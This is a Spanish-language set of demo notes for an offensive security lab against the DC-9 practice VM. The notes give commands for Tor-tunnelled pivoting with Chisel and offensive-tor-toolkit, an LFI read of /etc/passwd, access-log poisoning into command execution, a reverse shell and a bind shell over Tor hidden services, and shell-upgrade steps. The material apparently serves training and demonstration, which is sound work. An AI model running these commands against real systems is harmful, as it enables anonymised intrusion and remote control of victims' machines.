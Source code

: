# Kiddie Demo Notes
## Requisitos
- Ejecutar Job `Kiddie/Deploy`
### Kali
- Arrancar Tor, Hidden Service y walkthrough files cargados
```
sudo systemctl start tor
sudo -u debian-tor tor -f /opt/torrc
```
```
vim ~/.bash_aliases_custom/dc9.aliases # Actualizar DC-9
```
```
env | grep -e DC9 -e HIDDEN_SRV_TOR

# Check DC-9
nctor -v -z -w1 $DC9 80

# Check Hidden Service
nc -lnvp 1234 &
nctor -v -z -w1 $HIDDEN_SRV_TOR 1234
```
### Máquina del Jenkins
- Actualizar `~/.ssh/config`
- Subir Chisel y offensive-tor-toolkit
```
ansible-playbook -i dc9, ~/git/Kiddie-demo/00_demo-requirements-playbook.yml
```
- Acceso ssh con apache y tmux
```
ssh -t dc9 sudo -u apache -s "/bin/bash -c 'cd /var/lib/httpd && /usr/bin/tmux'"
```

## Contenido de la demo
- **[DC9]** !! Hacer todo con usuario apache !!


- **[DC9]** Levantar servidor de Chisel
```
cd /var/lib/httpd
./chisel server -p 1111 --socks5
```
- **[DC9]** Arrancar hidden-portforwarding

```
# onion:1111 -> 127.0.0.1:1111
./offensive-tor-toolkit/hidden-portforwarding \
        -data-dir datadir-hidden-pf \
        -forward 127.0.0.1:1111 \
        -hidden-port 1111
...
Forwarding ...  [!] ...onion [!] -> 127.0.0.1:1111
```
- **[KALI]** Conectar al HS con chisel client
```
HIDDEN_PF=<ONION>    # [!] ...onion [!]

chisel client \
    --proxy socks://127.0.0.1:9050 \
    $HIDDEN_PF:1111 socks

ss -lntp | grep chisel
```

- **[KALI]** Acceder a Wintermute Straylight `80/tcp`






## Extra
- LFI con usuario admin
```
dc9-login-admin # Obtener cookie
dc9-lfi /etc/passwd | head
```

- Log poisoning

```
dc9-lfi /var/log/httpd/access_log | tail -2
```
```
dc9-poisonlog
dc9-lfi /var/log/httpd/access_log | tail -2
```
```
dc9-cmd id
```

- Lanzar reverse-shell-over-tor y fully-upgraded-shell
```
dc9-reverse-shell
```
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

^Z
stty raw -echo
fg
reset

stty rows 23 columns 104
```

- Lanzar una bind shell para más de una terminal
```
./offensive-tor-toolkit/hidden-bind-shell -data-dir datadir-bind-shell
```
